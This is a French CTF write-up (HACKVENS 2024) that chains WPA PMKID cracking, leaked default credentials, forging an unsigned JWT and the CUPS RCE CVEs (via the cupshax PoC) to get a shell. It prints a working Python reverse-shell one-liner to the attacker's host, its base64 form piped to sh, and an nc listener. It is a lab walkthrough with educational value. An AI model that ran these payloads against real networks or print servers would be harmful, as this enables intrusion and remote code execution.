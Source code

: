J'ai flag ce challenge lors du CTF HACKVENS 2024 à Lille. 
La description du challenge indique qu'une machine est accessible sur le réseau wifi "captaincups-wifi" à l'adresse 192.168.12.1.  

On lance le mode monitor sur notre carte wifi externe (sudo iwconfig wlan0 mode monitor) 
Ensuite on lance un aireplay-ng pour checker les réseaux autours : 

```
BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 (not associated)   3E:B0:1E:81:67:3D  -43    0 - 1      0        1                                                                           
 (not associated)   A4:97:B1:15:8E:F5  -73    0 - 6     20        4         captaincups-wifi 
```

Ensuite on nous donne également une capture wireshark avec un seul message eapol (pas le handshake complet habituel à cracker avec aircrack-ng). Néanmoins on retrouve dans le packet les infos dont on a besoin pour crack la pre shared key : 

- La PMKID
- Le SSID
- La mac de l'ap
- La mac du client 

Ensuite on trouve un script sur github pour cracker la pre-shared key avec ces infos : 

```
(PYTHON_TOOLS) eddymalou@parrot:~/Documents/CTF/HACKVENS/web$ python3 crack.py 

PMKID:                     476160903076f4d82091e345e3207f8f
SSID:                      captaincups-wifi
AP MAC Address:            00:22:6b:fb:49:2b
Client MAC Address:        00:c0:ca:62:a4:f6

Attempt crack with these settings? (y/n): y
Attempting to crack password...

e7a8005bd36ba5a9e5e0bcbd4211c51f
7412a40d38d4a8fadd8d1fa96c318458
4d4263d4ce866da5326a6622461cf5b2
0fa989dd03b2166d7acfbf3685c7ac62
d4db1b5a9b2a146c85fe90dcf2a5a40a
ea0011573095ede0f167d47eaab4e9e3
7c8129ea1cb3e0f1ea7d431d4745bf0a
... rock you go brrrrrrrrrrrrrr
0916d4be2a126c895d7a601fc41e1b4b
be2dd1e083afce2435e02fb6930e0b8c
0f0991dc41d0a911ec081e6094484ff9
974bcc37fa8c66d31ddfabcca2faee2f
3c1017956134e4c34ad4cbdf8e901df2
daa217a986f804dbeb8a3b96fe64c9c9
628af9ee99ff42dfc6c62b7967119c05
1ad47773260d02331f28cecad3da2040
7c1adb19fa060c297d70c8694be9d87c
476160903076f4d82091e345e3207f8f - Matches captured PMKID
Password Cracked!

SSID:              captaincups-wifi
Password:          blackcaptain08  
```

On peut se connecter au réseau wifi hidden avec : 

`nmcli dev wifi connect "captaincups-wifi" password "blackcaptain08" hidden yes`

Ensuite en accédant à la machine en 192.168.12.1 on arrive bien sur un serveur web avec un commentaire html : 

`<!-- TODO : Supprimer le compte par défaut user:1_a10V3_Z4Z0U -->`

Dans robots.txt on trouve les informations suivantes 

![Image robots.txt](HACKVENS/images/robots_text.png)

![Image todo.txt](HACKVENS/images/todo_text.png)

-------------------------------------------------------

Ensuite on se connecte avec le user donné via les commentaires html et on a un JWT mais la signature n'est pas vérifiée, on peut juste le modifier en changeant "user" en "supercaptain" avec jwt.io notamment : 

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJyb2xlIjoic3VwZXJjYXB0YWluIiwiZXhwIjoxNzMyMzI0NzU3fQ.imLNhfONY95-Jev-yQaG8FlCoQo1LtbbRYjSZF-qWfU
```

```
{
  "username": "user",
  "role": "supercaptain",
  "exp": 1732324757
}
```

On peut maintenant refresh là page et on arrive sur ça : 

![Page admin impression](test_impression.png)

En entrant une adresse IP, le serveur déclenche une impression vers cette dernière. Grâce au nom de la capture réseau (cups.pcap), nous comprenons qu'il faut exploiter la / les récentes CVEs sur cups.
En faisant quelques recherches on tombe sur le répo suivant avec un poc et une explication des CVEs : https://github.com/0xCZR1/PoC-Cups-RCE-CVE-exploit-chain

- **CVE-2024-47176**: Unrestricted Packet Processing on UDP Port 631, allowing unauthenticated remote attackers to force CUPS to contact an attacker's IPP server.
- **CVE-2024-47076**: Improper validation of IPP attributes in `libcupsfilters`, which allows attacker-controlled data to be processed as valid.
- **CVE-2024-47175**: Injection of malicious data into PPD files via `libppd`, allowing for command execution during print jobs.
- **CVE-2024-47177**: Command injection via `foomatic-rip`, allowing attackers to execute arbitrary commands on the system.

La première CVE (47176) est inutile dans notre cas, car nous avons directement un moyen de trigger une impression depuis la web view. Les autres néanmoins sont utiles et permettent d'obtenir une RCE. 
Nous tentons d'utiliser le POC de ce même répo mais sans succès : le port 631 de la machine cible étant fermée le printer discovery ne peut pas s'effectuer correctement. Nous trouvons un autre [PoC](https://github.com/RickdeJager/cupshax) qui lui implémente différement les CVEs : `This PoC uses dns-sd printer discovery, so the target must be able to receive the broadcast message, i.e. be on the same network. `

```
└──╼ #python3 cupshax.py --ip 0.0.0.0 --command "python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"192.168.12.45\",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/sh\")'" --port 8631
[+] Wrapping command in base64...
[+] Command: echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTkyLjE2OC4xMi40NSIsNDQ0NCkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZilmb3IgZiBpbigwLDEsMildO3B0eS5zcGF3bigiL2Jpbi9zaCIpJw==|base64 -d|sh
[+] Starting IPP server on 0.0.0.0:8631..
```

Ensuite on lance un `nc -lnvp 4444` et on trigger une impression depuis la webview vers notre laptop en `192.168.12.45` : 
![Payload sent](HACKVENS/images/payload_envoye.png)

On chope notre shell et un flag.txt : 
![Fake flag](HACKVENS/images/false_espoir.png)

La solve "légit" était de relancer une impression avec un wireshark qui tourne sur notre laptopt et on extrait le pdf depuis la capture dans le IPP response : 
![IPP response](HACKVENS/images/IPP_response.png)
l
Dans notre cas nous avons simplement `base64 doc/thomas-ruyant-pos.pdf` ctrl + shift + c
Et sur notre laptop `echo -n "base64 string du pdf" | base64 -d > flag.pdf`
![Real flag](HACKVENS/images/flag_final.png)

Le challenge était vraiment sympa mais seul problème les neuilles qui fuzzaient le serveur web pour rien (instance partagée qui a crashée pas mal de fois). Autre galère rencontrée : pas réussir à faire marcher le premier poc. Et je testais ma RCE avec un `python3 -m http.server 1234` en local et un payload du style `curl http://ip_laptop:1234/` mais je ne recevais rien car la machine cible n'avait pas `curl` d'installé :/


